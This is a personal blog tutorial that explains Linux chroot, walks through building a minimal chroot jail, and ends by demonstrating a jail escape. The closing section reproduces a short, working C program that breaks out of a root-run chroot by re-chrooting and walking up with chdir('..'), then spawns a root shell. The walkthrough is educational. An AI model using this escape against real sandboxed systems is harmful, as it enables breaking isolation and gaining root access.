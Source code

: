 ```yaml
---
layout: post
title: Looking into CHROOT
categories: [Linux]
---
```



## **What is Chroot?**

According to linux documentation...

> chroot - run command or interactive shell with special root directory

 Chroot is used in lots of different situation. As creating isolated testing environment for developers, running deprecated software that require older libraries, recovery filesystem...

  I remembered i use it when installing arch linux few years back, it also save me when my GRUB bootloader get broken on my old ubuntu PC. 

## **Practice**

 Okay enough chit-chat, let's roll out sleeves and deep dive into chroot. I will create simple sandbox bash environment with few commands as `touch`, `rm`, `ls` and `id`.  You need any linux distribution where you have admin/sudo rights. I used Ubuntu desktop for this example.

I created folder chroot-jail inside my home directory

```bash 
mkdir chroot-jail
```

I need to create folders bin,lib,lib64 and urs inside my newly created folder. 

```
mkdir -p chroot-jail/{bin,lib,lib64,usr/bin}
```
{} help me create multiple folders in my chroot-jail folder 
-p help me create folder bin inside urs inside chroot-jail :) it help create nested folders

![](/images/chroot/01-folders.png)

Now I need to copy all binaries I want to use. As I mentioned before I will copy `bash`,`touch`,`ls` and `rm` into my chroot-jail/bin folder and `id` into chroot-jail/usr/bin

![](/images/chroot/02-copy.png)

It's not that easy just copy binaries over. Every binary has some library dependencies. I need to copy that library into correct lib folder. To check dependencies I used `ldd` command.

![](/images/chroot/03-ldd.png)

I can see `bash` binary depends on few libraries. 3 of them I copied to lib folder and last one to lib64 folder. I will do exact same thing for `touch`,`ls`,`rm` and `id` binaries. If no missing library is there we can run command 

```bash 
sudo chroot chroot-jail /bin/bash
```

![](/images/chroot/04-jail.png)

I am in new shell. I can test all binaries I copied before. I can see all of them are working as expected. If I want to run binaries that are not inside my chroot-jail folder I will get error message.

![](/images/chroot/05-error.png)

## **Jail-break**

Chroot is not security feature. As you can see from man pages

> In particular, it is not intended
       to be used for any kind of security purpose, neither to fully
       sandbox a process nor to restrict filesystem system calls. 

If I looked into [Hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/escaping-from-limited-bash) and there was really nice C script for escaping. It looks like this...

```C
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>
//gcc break_chroot.c -o break_chroot
int main(void)
{
    mkdir("chroot-dir", 0755);
    chroot("chroot-dir");
    for(int i = 0; i < 1000; i++) {
        chdir("..");
    }
    chroot(".");
    system("/bin/bash");
}
```

I can compile this script with this command

```bash 
gcc script.c -o spyx
```

and copy it into my chroot-jail folder and test it. 

![](/images/chroot/06-break.png)

I became root on my own hosts! As we can see I became immediate root because I run chroot with sudo privileges.

Thanks for reading....